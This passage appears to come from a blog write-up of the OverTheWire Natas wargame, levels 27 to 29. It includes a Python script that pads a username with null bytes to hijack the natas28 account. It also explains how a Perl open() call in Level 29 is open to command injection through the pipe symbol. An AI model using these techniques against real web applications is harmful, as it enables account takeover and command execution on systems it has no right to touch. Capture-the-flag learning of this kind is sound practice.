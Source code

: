 I tried following the many solutions online which used the space character to create the whitespace in username, but none of them seemed to work. It was only after coming across [this post](https://blog.csdn.net/mengzh620/article/details/130342758) did I try using '\x00' - the null byte character - instead of spaces, and that did the trick! The following is script used to solve this challenge:

```python
import requests
from requests.auth import HTTPBasicAuth

url = "http://natas27.natas.labs.overthewire.org/"
basic = HTTPBasicAuth("natas27", "<natas 27 password>")
payload = {
    "username":"",
    "password":"pass"
}

session = requests.Session()
payload['username'] = 'natas28' + '\x00' * 58 + 'a'
response = session.post(url, auth=basic, data=payload)
print(response.text)
payload['username'] = 'natas28'
response = session.post(url, auth=basic, data=payload)
print(response.text)
```



### <a name="level-28"></a> Level 28

I skipped this level because I couldn't solve this challenge on my own, I barely understood the writeups for this challenge, and I don't have much interest in concepts tested (some complex cyryptography).

Here are some walkthroughs which I think are quite comprehensive:

- https://learnhacking.io/overthewire-natas-level-28-walkthrough/
- https://bernardoamc.com/ecb-discover-block-size/
- https://bernardoamc.com/ecb-decryption-simple/



### <a name="level-29"></a> Level 29

Disclaimer: I referenced [this writeup](https://ivanitlearning.wordpress.com/2020/02/02/overthewire-natas2729/) to solve this challenge.

This site gives us the ability to choose from 5 different options, which will display 5 different text files on the site. When we select any of the 5 options, we see that the URL becomes the following:

[![change in URL](/images/otw_natas/natas29-1_url.png)](/images/otw_natas/natas29-1_url.png)

Specifically, selecting any of these files introduces a URL query parameter 'file', the value of which is whatever file we chose to display. This hints that a local file inclusion or injection attack might be possible.

We can gess that the homepage, `index.pl`, uses the perl `open()` function to open and display the selected file. `open()` seems to be susceptible to command injection using the pipe symbol '|' as a delimiter [(source)](https://nets.ec/Command_Injection#Perl).
